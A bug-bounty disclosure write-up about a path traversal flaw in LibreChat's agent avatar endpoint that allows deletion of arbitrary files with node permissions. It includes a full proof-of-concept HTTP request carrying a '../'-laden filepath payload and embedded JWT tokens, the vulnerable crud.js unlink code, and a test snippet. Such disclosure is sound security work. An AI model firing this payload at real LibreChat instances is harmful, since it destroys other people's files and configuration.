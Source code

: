 ```yaml
---
layout: post
title: [huntr][duplicate] Path Traversal that leads to remove other files with node permission in danny-avila/librechat
description: Path Traversal that leads to remove other files with node permission in danny-avila/librechat
tags: huntr bugbounty path-traversal      
category: bugbounty 
---   
```

  
# 📜 Description     
    
A path traversal attack (also known as directory traversal) is a security vulnerability that allows attackers to manipulate file or directory paths in order to access unintended files or directories outside the intended folder structure. When a web application provides insufficient validation or sanitization of user inputs, attackers can exploit this weakness by crafting requests that traverse directories to access sensitive system files or perform unauthorized actions like deleting files.  
         
# 🕵️ Proof of Concept    

I created the file in /app/test/hacked for testing if the file removes or not. The file had the permission of node.     
     
```http
POST /api/agents/avatar/asdf HTTP/1.1
Host: localhost:3080
Content-Length: 10352
sec-ch-ua-platform: "Windows"
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3MGZhNWE1YTcyY2QwNjZmMzQxYjcwZCIsInVzZXJuYW1lIjoiYWFhYWEiLCJwcm92aWRlciI6ImxvY2FsIiwiZW1haWwiOiJhYWFhYUBuYXZlci5jb20iLCJpYXQiOjE3MjkxMzgzNzcsImV4cCI6MTcyOTEzOTI3N30.Drs4845G6BvwlTsbPmIU97COOEpUYnb1QPNDxczl77c
Accept-Language: ko-KR,ko;q=0.9
sec-ch-ua: "Chromium";v="129", "Not=A?Brand";v="8"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryqD8OKhALyMzAPlIU
Origin: http://localhost:3080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3080/c/new
Accept-Encoding: gzip, deflate, br
Cookie: refreshToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3MGZhNWE1YTcyY2QwNjZmMzQxYjcwZCIsImlhdCI6MTcyOTEzODM3NywiZXhwIjoxNzI5Njk4NjI0fQ.QnMNZfYNdC-kKdfjxeOWihbiF053uWNiPPsnWJU75m0
Connection: keep-alive

------WebKitFormBoundaryqD8OKhALyMzAPlIU
Content-Disposition: form-data; name="file"; filename="avatar.png"
Content-Type: image/png

PNG Binary
------WebKitFormBoundaryqD8OKhALyMzAPlIU
Content-Disposition: form-data; name="avatar"

{
    "source":"local",
    "filepath":"/uploads/670fa5a5a72cd066f341b70d/../../../../../../../../app/test/hacked"
}
------WebKitFormBoundaryqD8OKhALyMzAPlIU--
```     
     
This problem occurs in /api/server/services/Files/Local/crud.js. It's because there is no verification logic for the path.    
    
```javascript
if (file.filepath.startsWith(`/uploads/${req.user.id}`)) {
    const basePath = file.filepath.split('/uploads/')[1];
    const filepath = path.join(uploads, basePath);
    await fs.promises.unlink(filepath);
    return;
}
```    
          
## Test Code    
     
```javascript
const path = require('path');

const basePath = "/uploads/670fa5a5a72cd066f341b70d/../../../../../../../../app/test/hacked".split("/uploads/")[1];
console.log(basePath);
console.log(path.join("/uploads/", basePath)); // OUTPUT: /app/test/hacked
```

# 🔐 Mitigations    
     
you can use the regex function to extract the last element of path or check the path if the dot includes in path.          
     
# 📚 References      
- ![OWASP - Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal) 
- ![PortSwigger - Path Traversal](https://portswigger.net/web-security/file-path-traversal)     
      
# Impact
An attacker could perform actions not intended by application like delete arbitrary files on file system including application source code or configuration and critical system files.         